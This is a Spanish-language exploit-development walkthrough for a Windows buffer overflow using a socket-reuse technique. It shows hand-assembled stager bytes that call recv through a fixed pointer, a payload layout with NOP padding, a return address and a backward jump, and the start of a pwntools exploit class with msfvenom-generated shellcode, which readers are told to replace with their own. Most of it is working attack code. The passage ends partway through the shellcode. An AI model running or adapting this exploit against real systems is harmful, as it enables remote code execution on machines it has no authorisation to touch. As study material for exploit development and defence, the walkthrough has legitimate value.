 Esta direcció la puse en *EAX* con `mov eax, [0x719082ac]` e hice una llamada a *EAX*.

![image](https://camo.githubusercontent.com/8f6c8bc1fd2b505f32ba4d2d7272e84cf2deb3938c00554871402cd3eea4c035/68747470733a2f2f696d6775722e636f6d2f36346d566375312e706e67)

Converti las A en NOPS y este es el aspecto que tenía el *exploit*.

```python
recv = b""
recv += b"\x54" 				# -> push esp
recv += b"\x58" 				# -> pop eax
recv += b"\x66\x05\x30\x02" 			# -> add ax, 0x230
recv += b"\x66\x2d\xe8\x01" 			# -> sub ax, 0x1E8
recv += b"\x8b\x30" 				# -> mov esi, dword [eax]
recv += b"\x83\xec\x70" 			# -> sub esp, 0x70
recv += b"\x31\xdb" 				# -> xor ebx, ebx
recv += b"\x53" 				# -> push ebx 
recv += b"\x66\x81\xc3\x10\x04" 		# -> add bx, 0x410
recv += b"\x53" 				# -> push ebx
recv += b"\x54"					# -> push esp
recv += b"\x5b"					# -> pop ebx
recv += b"\x66\x83\xc3\x70"			# -> add bx, 0x70
recv += b"\x53"					# -> push ebx
recv += b"\x56" 				# -> push esi
recv += b"\xa1\xac\x82\x90\x71"			# -> mov eax, [0x719082ac]
recv += b"\xff\xd0"				# -> call eax

payload = recv + b"\x90"*(66 - len(recv)) + p32(0x719023A8) + b"\xeb\xb8" # -> jmp $-70
```

Ahora simplemente cree mi *shellcode* con `msfvenom`.

![image](https://camo.githubusercontent.com/3bc13d9861696a4ed9d61b9acfb22ea4d97183eb5f149ba2111de6925d7d8396/68747470733a2f2f696d6775722e636f6d2f4259316434656c2e706e67)
 
Lo introduje en el *exploit* y así quedo entero.

```python
#!/usr/bin/python3

from pwn import *
from sys import argv
from time import sleep

class Exploit():

	def __init__(self, user, password, name):
		self.__user = user
		self.__password = password
		self.__name = name

	def socket_reuse(self):
	
		"""
		int recv(
  			[in]  SOCKET s, 0x
  			[out] char   *buf, -> 0x00be40f0
  			[in]  int    len, ->  0x00000410 
  			[in]  int    flags -> 0x00000000
		);
		"""
		# Cambiar a vuestro shellcode
		buf =  b""
    		buf += b"\xdb\xdc\xd9\x74\x24\xf4\xb8\x0c\x84\x35\xbe\x5a\x33"
    		buf += b"\xc9\xb1\x52\x31\x42\x17\x83\xc2\x04\x03\x4e\x97\xd7"
    		buf += b"\x4b\xb2\x7f\x95\xb4\x4a\x80\xfa\x3d\xaf\xb1\x3a\x59"
    		buf += b"\xa4\xe2\x8a\x29\xe8\x0e\x60\x7f\x18\x84\x04\xa8\x2f"
    		buf += b"\x2d\xa2\x8e\x1e\xae\x9f\xf3\x01\x2c\xe2\x27\xe1\x0d"
```